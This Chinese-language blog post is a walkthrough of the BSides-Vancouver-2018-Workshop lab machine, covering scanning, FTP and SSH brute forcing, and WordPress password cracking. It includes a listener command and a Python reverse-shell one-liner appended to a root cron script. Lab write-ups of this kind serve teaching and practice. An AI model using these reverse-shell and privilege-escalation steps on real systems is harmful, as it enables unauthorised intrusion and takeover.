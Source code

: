 ```yaml
---
# 这是页面的图标
icon: api
# 这是文章的标题
title: 靶机 BSides-Vancouver-2018-Workshop Walkthrough
# 设置作者
author: lhz
# 设置写作时间
time: 2022-04-04
# 一个页面只能有一个分类
category: 渗透
# 一个页面可以有多个标签
tag:
  - 渗透
  - 靶机
comment: false

typora-root-url: ..\..\..\.vuepress\public
---
```




扫描ip

```
└─$ nmap -sP 192.168.182.0/24         
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-04 11:31 EDT
Nmap scan report for 192.168.182.2
Host is up (0.00042s latency).
Nmap scan report for 192.168.182.128
Host is up (0.00021s latency).
Nmap scan report for 192.168.182.131
Host is up (0.00074s latency).
Nmap done: 256 IP addresses (3 hosts up) scanned in 15.73 seconds
```

扫描目标

```
┌──(kali㉿kali)-[/tmp]
└─$ nmap -T5 -A -v -p- 192.168.182.131                                                   
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-04 11:30 EDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 11:30
Completed NSE at 11:30, 0.00s elapsed
Initiating NSE at 11:30
Completed NSE at 11:30, 0.00s elapsed
Initiating NSE at 11:30
Completed NSE at 11:30, 0.00s elapsed
Initiating Ping Scan at 11:30
Scanning 192.168.182.131 [2 ports]
Completed Ping Scan at 11:30, 0.00s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:30
Completed Parallel DNS resolution of 1 host. at 11:31, 13.01s elapsed
Initiating Connect Scan at 11:31
Scanning 192.168.182.131 [65535 ports]
Discovered open port 80/tcp on 192.168.182.131
Discovered open port 21/tcp on 192.168.182.131
Discovered open port 22/tcp on 192.168.182.131
Completed Connect Scan at 11:31, 2.20s elapsed (65535 total ports)
Initiating Service scan at 11:31
Scanning 3 services on 192.168.182.131
Completed Service scan at 11:31, 6.02s elapsed (3 services on 1 host)
NSE: Script scanning 192.168.182.131.
Initiating NSE at 11:31
NSE: [ftp-bounce] PORT response: 500 Illegal PORT command.
Completed NSE at 11:31, 0.52s elapsed
Initiating NSE at 11:31
Completed NSE at 11:31, 0.01s elapsed
Initiating NSE at 11:31
Completed NSE at 11:31, 0.00s elapsed
Nmap scan report for 192.168.182.131
Host is up (0.00023s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 65534    65534        4096 Mar 03  2018 public
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.182.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 2.3.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 85:9f:8b:58:44:97:33:98:ee:98:b0:c1:85:60:3c:41 (DSA)
|   2048 cf:1a:04:e1:7b:a3:cd:2b:d1:af:7d:b3:30:e0:a0:9d (RSA)
|_  256 97:e5:28:7a:31:4d:0a:89:b2:b0:25:81:d5:36:63:4c (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/backup_wordpress
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 11:31
Completed NSE at 11:31, 0.00s elapsed
Initiating NSE at 11:31
Completed NSE at 11:31, 0.00s elapsed
Initiating NSE at 11:31
Completed NSE at 11:31, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.17 seconds

```

## 方法一

有21端口，尝试用匿名账号登录

![image-20220421180049816](/assets/img/image-20220421180049816.png)

发现users.txt.bk 文件夹，下载后查看内容，有5个用户名

用这5个用户进行ssh爆破，anne用户爆破成功

![image-20220421180055966](/assets/img/image-20220421180055966.png)

登陆后发现anne在sudo组，sudo 提权成功

![image-20220421180100595](/assets/img/image-20220421180100595.png)

## 方法二

```bash
┌──(kali㉿kali)-[/tmp]
└─$ nikto -host 192.168.182.131
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.182.131
+ Target Hostname:    192.168.182.131
+ Target Port:        80
+ Start Time:         2022-04-04 11:46:51 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.2.22 (Ubuntu)
+ Server may leak inodes via ETags, header found with file /, inode: 2140, size: 177, mtime: Sat Mar  3 14:17:59 2018
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-powered-by header: PHP/5.3.10-1ubuntu3.26
+ Uncommon header 'link' found, with contents: </backup_wordpress/?rest_route=/>; rel="https://api.w.org/"
+ Entry '/backup_wordpress/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ "robots.txt" contains 1 entry which should be manually viewed.
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.html
+ Apache/2.2.22 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8726 requests: 0 error(s) and 13 item(s) reported on remote host
+ End Time:           2022-04-04 11:47:21 (GMT-4) (30 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

发现robots.txt,查看内容

![image-20220421180107562](/assets/img/image-20220421180107562.png)

发现扫描结果中提到的/backup_wordpress/，访问后发现是wordpress

![image-20220421180111810](/assets/img/image-20220421180111810.png)

扫描用户

```bash
wpscan --url http://192.168.182.131/backup_wordpress --enumerate u
```

![image-20220421180117176](/assets/img/image-20220421180117176.png)

发现john和admin

爆破john，发现密码

![image-20220421180122247](/assets/img/image-20220421180122247.png)

登录wordpress，修改404.php，反弹shell

![image-20220421180126723](/assets/img/image-20220421180126723.png)

kali监听 nc -nlvp 4444

访问http://192.168.56.107/backup_wordpress/wp-content/themes/twentysixteen/404.php，获得反弹shell

![image-20220421180132578](/assets/img/image-20220421180132578.png)

尝试内核提权和suid提权都没有成功，查看调度任务

![image-20220421180137224](/assets/img/image-20220421180137224.png)

发现root权限执行cleanup脚本，查看cleanup

![image-20220421180141923](/assets/img/image-20220421180141923.png)

在cleanup后面添加一行，反弹shell代码

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.182.128",4321));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

稍等几分钟，自动反弹，获得root权限

![image-20220421180146579](/assets/img/image-20220421180146579.png)